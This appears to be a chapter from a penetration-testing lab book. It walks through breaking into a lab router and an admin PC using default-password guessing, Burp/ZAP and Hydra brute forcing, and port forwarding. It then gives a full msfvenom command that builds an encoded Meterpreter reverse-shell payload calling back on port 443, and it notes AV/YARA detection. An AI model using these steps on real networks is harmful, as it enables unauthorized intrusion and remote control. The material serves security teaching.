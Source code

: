 This is one of the most important units in this book, as this allows you to defeat [NAT](https://www.comptia.org/content/guides/what-is-network-address-translation) and is a culmination of all of the previous exercises.

**Before proceeding, do exercise 2 in the READme.md. This will greatly help you when trying to use a dictionary attack.**

The main chain of attack is the following.

1. Figure out the brand of router that they were running to try a list of default passwords.
2. If (1) fails, do steps 3-6
3. Intercept a packet going to the Edge Router.
4. Figure out where people could input their passwords.
5. Use either a python program or some other thing (like Burp Suite, or ZAP) that could quickly implement passwords, as well.
6. Then, go and get the router password and log in.

Part One of getting into the router is complete. We now begin part 2, where we access the actual admin PC.

1. Run an nmap scan after configuring all of the ports to forward to 192.168.5.2 for the admin PC.
2. Realize that there is a process known as SSH running on the Admin PC. Therefore, our goal next is to get access using SSH. We then use: Hydra in order to brute force the login.
3. Then, again configure port forwarding to Port 22 in the Edge Router take: (10.2.51.7:22 -> 192.168.5.2:22)
4. Then, SSH into the computer. Then, open up another terminal to make a meterpreter payload. We will be using the `/windows/x64/meterpreter/reverse_tcp` payload, one of the most common payloads to go and log into a computer. In this case, we will be using port 443 in order to make the connection.
5. Type in the command `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.2.51.7 LPORT=443 -f exe > [insert name here].exe`. The `-p` stands for payload (which is the windows reverse shell), and the `LHOST` and `LPORT` identify which hosts on the LAN to connect to, and what port that they connect to, with `-f` standing for format. In this case, we use port 443, since it runs HTTPS and won't get detected by firewalls. Optionally, you may include the flags `-e cmd/powershell_base64 -i 300` encoder, which is another way of encoding the payload with `-i 300` times. 
6. Use `scp` to securely copy and paste the file to the admin PC.
7. (Optional) Check to see whether or not the file actually got copied using your SSH connection using `dir` or `ls`.

Now, part 2 of securely copying and pasting the file is complete. Now, part 3 is the fun part. 

1. First configure your Attack Router (the one that your PenTester PC is closest to connect to) to forward all inputs from 
 Use (multi/handler), and set the settings to LHOST and LPORT to the same attack machine.
2. Run the program, and profit. In particular, you get a meterpreter shell, which is far, far stronger than even a regular shell. However, many antiviruses will detect it (even with encodings, since it is literally the most common reverse shell), and one must find different ways of executing commands.

*remarks: yeah, there will be programs out there that tell you that metasploit payloads can bypass firewalls on Windows 10/11. We're not sure of the specifics, but for relatively updated systems, there seems to be almost no trouble. Additionally, meterpreter shells are very well known, and there is even a [YARA File](https://github.com/Yara-Rules/rules/blob/master/malware/RAT_Meterpreter_Reverse_Tcp.yar) to detect those payloads running in memory. you can find them [here.](https://n3nu.medium.com/getting-started-with-yara-a-beginners-guide-to-understanding-and-creating-yara-rules-73bda308fd98)"*

